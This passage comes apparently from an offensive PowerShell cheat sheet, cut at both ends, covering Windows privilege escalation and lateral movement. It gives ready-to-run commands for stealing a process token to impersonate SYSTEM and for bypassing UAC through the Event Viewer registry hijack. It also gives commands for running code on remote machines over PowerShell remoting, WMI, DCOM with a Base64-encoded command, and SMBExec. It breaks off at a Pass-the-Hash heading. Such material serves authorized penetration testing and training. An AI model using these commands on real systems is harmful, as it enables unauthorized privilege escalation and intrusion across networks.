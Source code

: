 * **Steal Token from Process for Escalation**:

```powershell
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ImpersonateUser "SYSTEM" -ProcessId <PID>
```

#### 4.9 Bypass User Account Control (UAC)&#x20;

* **Bypass UAC via Event Viewer**:

```powershell
$RegistryPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
New-Item -Path $RegistryPath -Force
Set-ItemProperty -Path $RegistryPath -Name "(Default)" -Value "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\escalation.ps1"
Invoke-Item -Path "eventvwr.exe"
```

## 5. Lateral Movement&#x20;

#### 5.1 PowerShell Remoting&#x20;

* **Enable PowerShell Remoting (requires administrative privileges)**:

```powershell
Enable-PSRemoting -Force
```

* **Use PowerShell remoting to execute a command on a remote system**:

```powershell
Invoke-Command -ComputerName <target_ip> -ScriptBlock {whoami}
```

#### 5.2 Invoke WMI&#x20;

```powershell
# Execute command on a remote machine using WMI
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Command whoami" -ComputerName <target_ip>
```

#### 5.3 Invoke DCOM&#x20;

* **Execute Command on Remote Machine using DCOM**

```powershell
Invoke-DCOM -ComputerName <Target_IP> -Command "powershell.exe -EncodedCommand <Base64_Command>"
```

#### 5.4 Invoke SMBExec&#x20;

* **Execute Command on Remote Machine via SMB**:

```powershell
Invoke-SMBExec -Target <Target_IP> -Command "ipconfig /all"
```

#### 5.5 Pass-the-Hash&#x20;
